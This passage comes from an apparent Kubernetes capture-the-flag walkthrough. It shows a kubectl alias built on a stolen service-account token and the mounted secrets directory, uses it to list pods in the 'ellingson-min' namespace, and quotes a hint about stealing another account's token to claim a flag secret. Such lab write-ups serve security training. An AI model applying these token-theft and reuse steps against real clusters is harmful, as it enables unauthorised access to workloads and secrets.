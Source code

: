         ```shell
        tokendir="/run/secrets/kubernetes.io/serviceaccount"
        alias kubectl="kubectl --token=$( cat /newtoken ) \
        --server="https://kubernetes.default.svc.cluster.local" \
        --certificate-authority=$tokendir/ca.crt \
        -n $(cat $tokendir/namespace)" 
        ```

123. Now try using it to list pods

        ```shell
        kubectl get pods
        ```

124. Observe that you're not permitted to list pods in this namespace using that token. The error message is helpful, though. It says that the token is authenticating you as `theplague` from the `ellingson-min` namespace. Here's the output from our test system:

        ```
        Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:ellingson-min:theplague" cannot list resource "pods" in API group "" in the namespace "phreaks-nynex-kingdom"
        ```

125. Alter our kubectl alias to use the ellingson-min namespace:

        ```shell
        tokendir="/run/secrets/kubernetes.io/serviceaccount"
        alias kubectl="kubectl --token=$( cat /newtoken ) \
        --server=https://kubernetes.default.svc.cluster.local \
        --certificate-authority=$tokendir/ca.crt \
        -n ellingson-min"
        ```

126. Test this:

        ```shell
        kubectl -n ellingson-min get pods
        ```

127. Notice that we have a Gibson pod, corresponding to the big mainframe in the movie:

        ```
        NAME     READY   STATUS    RESTARTS   AGE
        gibson   1/1     Running   0          8h
        ```

128. Our HINT's next step was:

        ```
        Once you have that next service account token, you need to 
        steal the davinci service account's token in the 
        ellingson-min namespace.

        This will allow you to claim the flag-davinci secret in that
        namespace.
        ```
